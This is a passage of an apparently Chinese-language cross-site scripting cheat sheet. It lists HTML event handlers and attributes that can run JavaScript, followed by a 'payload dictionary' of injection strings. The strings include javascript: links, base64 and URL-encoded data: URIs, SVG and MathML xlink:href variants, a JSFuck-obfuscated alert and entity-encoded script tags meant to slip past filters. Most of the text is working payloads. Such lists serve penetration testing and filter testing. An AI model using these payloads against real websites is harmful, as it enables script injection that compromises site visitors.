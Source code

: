         1. onload 
        2. onunload 
        3. onchange 
        4. onsubmit 
        5. onreset 
        6. onselect 
        7. onblur 
        8. onfocus 
        9. onabort 
        10. onkeydown 
        11. onkeypress 
        12. onkeyup 
        13. onclick 
        14. ondbclick 
        15. onmouseover 
        16. onmousemove 
        17. onmouseout 
        18. onmouseup 
        19. onforminput 
        20. onformchange 
        21. ondrag 
        22. ondrop
    `
#### 可以执行js的属性
    `
        1. formaction 
        2. action 
        3. href 
        4. xlink:href 
        5. autofocus 
        6. src 
        7. content 
        8. data
    `
#### payload字典
##### a 标签
1. javascript 伪协议：
`<a href=javascript:alert(2)>`
2. data 协议执行 javascript：
`<a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>`
3. urlencode 版本：
`<a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>`
4. 不使用 href 的另外一种组合来执行 js：
`<svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg> `
或者：
`<math><a xlink:href=javascript:alert(1)></math>`
#### script 标签
1. 最简单的测试 payload：
`<script>alert(1)</script>`
2. jsfuck 版本：
`<script>alert((+[][+[]]+[])[++[[]][+[]]]+([![]]+[])[++[++[[]][+[]]][+[]]]+([!![]]+[])[++[++[++[[]][+[]]][+[]]][+[]]]+([!![]]+[])[++[[]][+[]]]+([!![]]+[])[+[]])</script>`
3. 各种编码版本：
`<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script>` 
`<script>prompt(-[])</script>`//不只是alert。prompt和confirm也可以弹窗 
 